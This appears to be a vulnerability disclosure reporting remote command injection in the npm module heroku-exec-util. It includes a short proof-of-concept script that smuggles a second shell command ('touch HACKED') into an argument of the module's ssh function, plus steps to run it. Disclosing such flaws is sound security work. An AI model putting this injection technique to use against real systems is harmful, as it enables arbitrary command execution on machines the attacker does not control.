 # Description

The `heroku-exec-util` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
var heu = require('heroku-exec-util');
heu.ssh({args:{}},'test; touch HACKED; #','','test',{path:'test'})

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i heroku-exec-util # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
